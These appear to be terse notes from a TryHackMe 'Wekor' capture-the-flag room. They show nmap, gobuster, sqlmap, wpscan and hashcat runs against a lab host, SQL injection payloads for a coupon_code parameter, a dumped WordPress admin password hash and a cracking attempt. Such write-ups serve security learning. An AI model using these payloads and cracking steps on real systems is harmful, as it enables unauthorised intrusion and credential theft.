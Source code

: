 <code>
https://tryhackme.com/r/room/wekorra

### Enumeration

┌──(duke㉿kali)-[~/Documents/THM_wekor]
└─$ nmap  -A  -Pn  10.10.197.97
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-17 02:47 CDT
Nmap scan report for 10.10.197.97
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:c3:ce:af:07:fa:e2:8e:29:04:e4:cd:14:6a:21:b5 (RSA)
|   256 4d:99:b5:68:af:bb:4e:66:ce:72:70:e6:e3:f8:96:a4 (ECDSA)
|_  256 0d:e5:7d:e8:1a:12:c0:dd:b7:66:5e:98:34:55:59:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 9 disallowed entries 
| /workshop/ /root/ /lol/ /agent/ /feed /crawler /boot 
|_/comingreallysoon /interesting
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.32 seconds

#### robots.txt
User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting

on /comingreallysoon found
Welcome Dear Client! We've setup our latest website on /it-next, Please go check it out! If you have any comments or suggestions, please tweet them to @faketwitteraccount! Thanks a lot ! 

http://wekor.thm/it-next/


┌──(duke㉿kali)-[~/Documents/THM_wekor]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://wekor.thm/it-next -x .php, .txt, .html 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wekor.thm/it-next
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
2024/05/17 03:58:06 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://wekor.thm/it-next/images/]
/index.php            (Status: 200) [Size: 66938]                                     
/contact.php          (Status: 500) [Size: 0]                                         
/css                  (Status: 301) [Size: 312] [--> http://wekor.thm/it-next/css/]   
/js                   (Status: 301) [Size: 311] [--> http://wekor.thm/it-next/js/]    
/config.php           (Status: 200) [Size: 0]                                         
/fonts                (Status: 301) [Size: 314] [--> http://wekor.thm/it-next/fonts/] 
/revolution           (Status: 301) [Size: 319] [--> http://wekor.thm/it-next/revolution/]
                                                                                          
===============================================================
2024/05/17 04:41:56 Finished
===============================================================

### sqlmap  -r req_it_cart.txt --dbs --level 5            


[06:23:37] [WARNING] parameter 'Referer' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 19054 HTTP(s) requests:
---
Parameter: coupon_code (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: coupon_code=gsdf' AND 7325=(SELECT (CASE WHEN (7325=7325) THEN 7325 ELSE (SELECT 6507 UNION SELECT 3254) END))-- -&apply_coupon=Apply Coupon

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: coupon_code=gsdf' AND GTID_SUBSET(CONCAT(0x716a627071,(SELECT (ELT(1291=1291,1))),0x717a6b6a71),1291)-- KhIi&apply_coupon=Apply Coupon

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: coupon_code=gsdf' AND (SELECT 2208 FROM (SELECT(SLEEP(5)))jnwK)-- uaPj&apply_coupon=Apply Coupon

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: coupon_code=gsdf' UNION ALL SELECT CONCAT(0x716a627071,0x50504e4769727562416743554d6878484a754b6e6c7a4b487273476457645253516a6e4975686863,0x717a6b6a71),NULL,NULL-- -&apply_coupon=Apply Coupon
---
[06:23:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[06:23:38] [INFO] fetching database names
available databases [6]:
[*] coupons
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress


### http://site.wekor.thm/wordpress/
http://site.wekor.thm/wordpress,$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.,admin@wekor.thm,admin,0,admin,admin,2021-01-21
$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. - Possible algorithms: phpass, phpBB3 (MD5), Joomla >= 2.5.18 (MD5), WordPress (MD5)

──(duke㉿kali)-[~/Documents/THM_wekor]
└─$ wpscan --url http://site.wekor.thm/wordpress

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://site.wekor.thm/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)



Session..........: hashcat                                
Status...........: Quit
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.
Time.Started.....: Fri May 17 07:22:35 2024 (23 secs)
Time.Estimated...: Fri May 17 08:16:09 2024 (53 mins, 11 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../../rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     4463 H/s (6.98ms) @ Accel:64 Loops:1024 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 102912/14344385 (0.72%)
Rejected.........: 0/102912 (0.00%)
Restore.Point....: 102912/14344385 (0.72%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3072-4096
Candidate.Engine.: Device Generator
### Candidates.#1....: GANTENG -> 4everloved

Started: Fri May 17 07:22:19 2024
Stopped: Fri May 17 07:22:59 2024



 
